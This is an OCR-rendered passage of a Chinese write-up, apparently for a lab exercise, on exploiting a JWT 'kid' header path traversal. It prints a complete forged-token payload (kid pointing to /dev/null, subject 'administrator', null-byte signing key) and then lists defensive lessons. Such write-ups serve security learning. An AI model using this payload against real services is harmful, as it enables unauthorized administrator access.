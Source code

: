 值或限制文件访问时。  
  
  
  
# 🧪 有效载荷摘要  
  
// JWT Header  
  
{  
  
  
"alg"  
:   
"HS256"  
,  
  
  
"kid"  
:   
"../../../../../../../dev/null"  
  
}  
  
// JWT Payload  
  
{  
  
  
"sub"  
:   
"administrator"  
  
}  
  
// Signing Key (Base64 null byte)  
  
AA==  
  
  
  
# 🧠 经验教训  
- 🚫 永远不要相信用户控制的
```
kid
```

标头  
- ✅ 清理所有接触文件系统的输入  
- 🔐 不要动态加载机密 - 使用内存中的静态密钥  
- 💀
```
/dev/null
```

不仅无害，在脆弱的环境中，它更是致命的  
# 🎉 最后的话  
  